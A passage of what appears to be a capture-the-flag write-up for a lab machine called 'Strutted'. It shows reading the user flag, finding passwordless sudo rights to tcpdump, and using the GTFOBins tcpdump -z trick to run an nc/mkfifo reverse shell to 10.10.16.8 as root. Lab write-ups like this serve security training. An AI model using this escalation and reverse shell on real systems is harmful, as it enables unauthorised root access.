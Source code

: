 ```console

0 updates can be applied immediately.

5 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Jan 21 13:46:18 2025 from 10.10.14.64
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@strutted:~$
```
The user `james` is able to read the user flag.
```console
james@strutted:~$ ls -la
total 28
drwxr-x--- 3 james james 4096 Jan 15 15:36 .
drwxr-xr-x 3 root  root  4096 Jan 15 14:30 ..
lrwxrwxrwx 1 root  root     9 Jan 11 13:50 .bash_history -> /dev/null
-rw-r--r-- 1 james james  220 Jan 11 13:07 .bash_logout
-rw-r--r-- 1 james james 3771 Jan 11 13:07 .bashrc
drwx------ 2 james james 4096 Jan 15 15:24 .cache
-rw-r--r-- 1 james james  807 Jan 11 13:07 .profile
-rw-r----- 1 root  james   33 Jun 19 01:07 user.txt
james@strutted:~$ cat user.txt |wc
      1       1      33
```
## Root
The user `james` can execute `tcpdump` as root.
```console
james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump

```
[GTFOBins](https://gtfobins.github.io/gtfobins/tcpdump/) has a documented way to escalate privileges given the user can execute `tcpdump` as root.  Below I use the method described by GTFOBins to get a reverse shell as root.
```console
james@strutted:~$ RESHELL='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.8 9595 >/tmp/f'
james@strutted:~$ TF=$(mktemp)
james@strutted:~$ echo "$RESHELL" > $TF
james@strutted:~$ chmod +x $TF
james@strutted:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
rm: cannot remove '/tmp/f': No such file or directory

```
This shell is caught on my local machine.  
```console
```